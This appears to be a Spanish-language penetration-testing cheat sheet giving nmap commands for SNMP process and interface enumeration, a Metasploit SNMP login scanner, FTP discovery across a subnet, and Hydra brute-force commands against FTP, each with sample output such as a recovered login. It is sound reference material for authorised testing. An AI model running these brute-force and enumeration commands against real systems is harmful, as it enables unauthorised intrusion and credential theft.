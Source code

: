 **Enumerar procesos SNMP (nmap):**
```bash
nmap -sU -p 161 --script=snmp-processes 192.168.1.5
```
_Ejemplo output:_
```
161/udp open snmp
| snmp-processes:
|   1. init
|   2. sshd
|   3. snmpd
```

**Enumerar interfaces SNMP:**
```bash
nmap -sU -p161 --script=snmp-interfaces 192.168.1.5
```
_Ejemplo output:_
```
161/udp open snmp
| snmp-interfaces:
|   eth0: up
|   eth1: down
```

**Validar strings SNMP en Metasploit:**
```bash
use auxiliary/scanner/snmp/snmplogin
set RHOSTS 192.168.1.5
set RPORT 161
run
```
_Ejemplo output:_
```
[+] Valid SNMP login found: public
```

---

## FTP (Puerto 21)

**Descubrir FTP abiertos en toda la red:**
```bash
nmap -p 21 192.168.1.0/24
```
_Ejemplo output:_
```
PORT   STATE SERVICE
21/tcp open  ftp
```

**Bruteforce FTP con Hydra:**
```bash
hydra -l user -P wordlist.txt ftp://192.168.1.10
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P password_list.txt 192.168.1.10 ftp
```
_Ejemplo output:_
```
[21][ftp] host: 192.168.1.10 login: admin password: p@ssw0rd
```
